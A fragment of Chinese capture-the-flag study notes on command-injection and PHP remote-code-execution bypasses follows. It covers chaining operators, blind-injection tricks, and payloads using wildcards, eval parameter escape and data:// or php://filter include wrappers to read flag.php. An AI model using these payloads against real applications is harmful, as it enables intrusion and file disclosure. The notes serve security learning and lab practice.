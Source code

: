 4、拼接绕过
```
; 指令拼接
|| 前面错误后面才执行
& 
&&
&要进行url编码
```

（3）无回显利用

```
	1、直接写个文件访问查看
	
	2、直接进行对外访问接受
```

命令连接符
```
;	分号
|	只执行后面那条命令
||	只执行前面那条命令
&	两条命令都会执行
&&	两条命令都会执行
```
# 白盒-CTF-RCE代码命令执行

29-通配符


```
	system('tac fla*.php');
```

30-取代函数&通配符&管道符

```
		`cp fla*.ph* 2.txt`;
		
		echo shell_exec('tac fla*.ph*');
```


31-参数逃逸

```
	eval($_GET[1]);&1=system('tac flag.php');
	
```
32~36-配合包含&伪协议

```
由于过滤了分号，所以用?> 代替 ;

	include$_GET[a]?>&a=data://text/plain,<?=system('tac flag.php');?>
	
	include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```
37~39-包含RCE&伪协议&通配符
